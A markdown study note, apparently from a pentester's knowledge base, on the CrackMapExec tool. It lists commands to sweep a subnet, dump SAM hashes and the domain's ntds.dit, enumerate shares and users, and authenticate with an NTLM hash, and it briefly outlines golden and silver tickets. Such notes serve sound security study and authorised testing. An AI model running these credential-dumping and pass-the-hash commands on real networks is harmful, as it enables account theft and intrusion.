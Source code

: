 ```yaml
---
title: CrackMapExec
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```



# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```bash
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Get sam: all users authenticated in the machine and their hashes
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --ntds

# See shares
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --shares

# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions

# Enumerate users of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate logged on users
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>
```

## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.






